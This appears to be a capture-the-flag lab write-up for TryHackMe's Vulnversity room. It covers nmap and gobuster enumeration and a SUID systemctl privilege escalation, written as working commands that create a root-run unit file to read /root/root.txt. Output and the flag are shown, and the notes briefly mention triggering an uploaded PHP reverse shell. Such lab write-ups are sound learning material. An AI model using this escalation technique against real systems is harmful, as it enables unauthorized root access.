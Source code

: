 # This contains the stuff related to vulnversity from TryHackMe

## Enumeration

```
nmap -sV < IP >
```
sV is for gathering Versions of the Services running on Target Machine

Tip:Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background


```
gobuster dir -u http://<ip>:3333 -w <word list location>
```

## Priviledge Escalation

### SUID

In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

Our SUID scan found a file, "systemctl".

systemctl is a binary that controls interfaces for init systems and service managers. Remember making your services run using the systemctl command during the boot time. All those tasks are handled as units and are defined in unit folders. By default systemctl will search these files in /etc/system/systemd.

For this machine we do not have access to the paths owned by root and by so we can't made the unit file. Although we can set environment variables. So let's do the PrivEsc.
Create Environment Variable

```
priv=$(mktemp).service
```

Create Unit File and assign this to environment variable
```
echo '[Service]
$ priv=$(mktemp).service
$ echo '[Service]
> ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
> [Install]
> WantedBy=multi-user.target' > $priv
$ 
```
 
What we have done here is to simply create a service which will be executing "BASH", then reading the flag from the root directory and then writing it in the flag (file) in /opt directory.

Now we need to run this unit file using systemctl.

```
$ cd /opt
$ /bin/systemctl link $priv
Created symlink from /etc/systemd/system/tmp.ikSEx6NVBy.service to /tmp/tmp.ikSEx6NVBy.service.
$ /bin/systemctl enable --now $priv
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.ikSEx6NVBy.service to /tmp/tmp.ikSEx6NVBy.service.
$ ls
flag
$ cat flag
a58ff8579f0a9270368d33a9966c7fd5
$ 
```
Here we found the flag! 

# Tip
 * After uploading the payload ( here, php-reverse-shell.phtml ), go to the location where the file is uploaded i.e. use get method so that the payload will be executed.
